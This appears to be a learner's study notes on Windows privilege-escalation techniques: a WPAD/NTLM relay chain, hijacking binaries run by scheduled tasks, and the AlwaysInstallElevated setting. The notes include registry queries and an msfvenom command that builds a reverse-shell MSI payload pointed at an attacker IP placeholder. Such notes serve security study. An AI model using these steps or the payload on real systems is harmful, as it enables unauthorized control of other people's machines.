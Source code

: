 1. target uses WAPD to connect to update server 

2. req. is intercepted and response is sent to localhost 

3. target asks for a proxy conf. file 

4. malicious file is being sent 

then 

5. target connect to our proxy 

6. our exploit asks target for NTLM auth. 

7. We recieve a NTLM handshake 

8. we futher send NTLM handshake to SMB service requesting to create a process with higher privilege (process can be a reverse shell)

req. are sent and recieved within the target system

our selection of exploit dpeneds on : 

-->system version

-->patch level 

-->network conf. 

--------

Quick Wins : 

schedules task are like cron jobs 

if we can replace or edit a binary the task will run with higher priv 

use "schtasks" to find those tasks 

--------

Always Install Elevated : 

windows installer or msi files are used to install applications on a system 

configure MSI file to use admin privileges 

before doing that just set two registry values 

--> reg query HKEY_CURRENT_USER\Software\Policies\Microsoft\Windows\Installer

--> reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer

then use msfvenom to create a payload leading to a reverse shell : 

msfvenom -p windows/x64/shell_reverse_tcpLHOST=ATTACKING_MACHINE_IP LPORT=LOCAL_PORT -f msi -o malicious.msi

then setup your listener and boom 

------

Passwords : 
